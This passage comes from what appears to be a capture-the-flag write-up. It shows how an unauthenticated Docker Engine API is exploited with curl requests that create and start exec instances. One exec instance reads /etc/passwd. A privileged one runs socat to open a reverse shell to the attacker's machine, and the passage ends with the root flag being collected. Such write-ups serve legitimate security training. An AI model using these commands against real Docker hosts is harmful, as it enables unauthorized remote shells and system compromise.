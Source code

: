 ![image](https://user-images.githubusercontent.com/76821053/129367921-d8003270-8e2e-4d68-9bc2-c1aea59a68c8.png)

We recieved a new id from the instance that we have created. Now we need to start the exec instance with the new ID that we recieve:

```
curl -i -s -X POST \
-H "Content-Type: application/json" \
--data-binary '{"Detach": false,"Tty": false}' \
http://localhost:8080/exec/NEW_INSTANCE_ID/start

NEW_INSTANCE_ID: 567efc78b6e1184e8b5949f989c37c564b93b2d73ccf168d5120dc5590edd5aa
```

![image](https://user-images.githubusercontent.com/76821053/129367958-71da62a4-ef79-4695-a273-046c39bf6dd6.png)

Success we recieved the contents of /etc/passwd of the docker container. Let's try to change the command to get a reverse shell connection.

Start from the begining and pay attention to the new ID's:

```
curl -i -s -X POST \
-H "Content-Type: application/json" \
--data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["socat", “TCP4:<MY_IP>:<PORT>”, “EXEC:bash” ],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
http://<docker_host>:PORT/containers/<container_id>/exec

Cmd: “socat”, “TCP4:my_ip:9001”, “EXEC:bash”
container_id: febb84cfadcf26debd379329d6da0e8902873c4ec29c148c27e632fa7809146a
```

![image](https://user-images.githubusercontent.com/76821053/129367983-11c815c8-9fdb-485a-aa7f-e6afed8b9db0.png)

Now to trigger the payload:

```
curl -i -s -X POST \
-H "Content-Type: application/json" \
--data-binary '{"Detach": false,"Tty": false}' \
http://localhost:8080/exec/NEW_INSTANCE_ID/start

NEW_INSTANCE_ID: e2891dbe24540b0d9b480ad1092ce03509fca95cb3a4298910266c78961b95d8
```

![image](https://user-images.githubusercontent.com/76821053/129368025-285d2e7f-78f0-4328-b6af-d247d7257bf1.png)

And in my netcat listener i received a reverse shell!

![image](https://user-images.githubusercontent.com/76821053/129368076-d8f74568-e102-42cf-a837-fa7436d6654b.png)

The root.txt flag is in /root directory:

![image](https://user-images.githubusercontent.com/76821053/129368101-33a04369-cfc7-4421-95a5-bdce7ab286ac.png)
